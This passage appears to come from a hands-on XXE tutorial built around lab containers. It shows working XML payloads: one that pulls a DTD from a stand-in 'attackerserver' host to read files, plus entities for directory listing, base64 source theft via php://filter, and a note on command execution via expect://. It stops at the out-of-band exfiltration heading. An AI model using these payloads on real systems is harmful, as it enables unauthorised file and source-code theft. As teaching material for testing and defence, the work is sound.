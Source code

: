 ```xml
<!DOCTYPE root [
	<!ENTITY % content SYSTEM "illegal.txt">
	<!ENTITY % dtd SYSTEM "http://attackerserver/readillegal.dtd">
 	%dtd;
]>
<root> &filecontent; </root>
```

Output:

```xml
<root> You cannot read me with XXE &amp; &lt; TEST </root> 
```

We can successfully read a file with illegal characters. You may try this out with Python-flask-xxe app that will throw you error messages.

However, if the length of the file with illegal characters is too large, XML parser will attempt to throw *"XMLSyntaxError: Detected an entity reference loop"* as it attempts to stop billion laughter attacks. This can be seen when attempting to steal the source code of `app.py`.

**Directory Listing**

In certain parsers such as Java's SAX JAXB parser, it is possible to perform directory listing. This can be demonstrated via our provided Java lab container. 

```xml
<!DOCTYPE root [ <!ENTITY lastname SYSTEM "file:///" > ]><employee id="1"><name>Amy &lastname;</name><salary>6000.0</salary></employee>
```

**PHP Wrappers**

The PHP language allows stealing of file content regardless whether they contains illegal characters. This is unique to PHP alone. 

PHP has a pseudo url "php://" that when invoked by PHP programs, can be abused to do base64 encoding of a resource before sending to output stream.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
	<!ENTITY a SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>

<name> &a; </name>
```

**RCE via PHP expect module**

The PECL's "expect" external module is often used to automate interactive applications. Some example use cases are to handle interactive applications like ssh / ftp over PHP. This allows command injection via the "expect://" pseudo url. However, this module is not installed along with the default PHP server but a custom add-on plugin added by developers.

You may try out with the PHP lab container where the 'expect' module has been installed.

**Data Ex-filtration via Out-of-Band XXE (OOBXXE)**
